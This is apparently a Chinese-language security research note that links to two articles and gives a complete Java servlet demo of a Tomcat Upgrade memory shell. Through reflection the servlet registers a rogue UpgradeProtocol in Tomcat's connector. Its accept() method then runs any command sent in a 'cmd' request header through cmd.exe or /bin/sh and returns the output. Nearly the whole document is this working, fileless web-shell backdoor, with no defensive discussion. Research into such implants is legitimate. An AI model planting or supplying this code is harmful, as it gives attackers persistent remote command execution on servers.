

### 链接

https://www.freebuf.com/vuls/345119.html

https://tttang.com/archive/1709/

### demo

```java
package upgrade;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

import org.apache.catalina.connector.Connector;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
import org.apache.coyote.Response;
import org.apache.coyote.http11.AbstractHttp11Protocol;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;

import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.io.IOException;
import java.util.HashMap;

@WebServlet(urlPatterns = "/upgrade")
public class upgradeTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        doPost(req, resp);
    }

    class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String p = request.getHeader("cmd");
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                Response resp = (Response) response.get(request);
                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                resp.doWrite(ByteBuffer.wrap(result));
            } catch (Exception e) {
            }
            return false;
        }
    }
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            RequestFacade rf = (RequestFacade) req;
            Field requestField = RequestFacade.class.getDeclaredField("request");
            requestField.setAccessible(true);
            Request request1 = (Request) requestField.get(rf);

            Field connector = Request.class.getDeclaredField("connector");
            connector.setAccessible(true);
            Connector realConnector = (Connector) connector.get(request1);

            Field protocolHandlerField = Connector.class.getDeclaredField("protocolHandler");
            protocolHandlerField.setAccessible(true);
            AbstractHttp11Protocol handler = (AbstractHttp11Protocol) protocolHandlerField.get(realConnector);

            HashMap<String, UpgradeProtocol> upgradeProtocols = null;
            Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
            upgradeProtocolsField.setAccessible(true);
            upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);

            MyUpgrade myUpgrade = new MyUpgrade();
            upgradeProtocols.put("hello", myUpgrade);

            upgradeProtocolsField.set(handler, upgradeProtocols);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

测试截图：

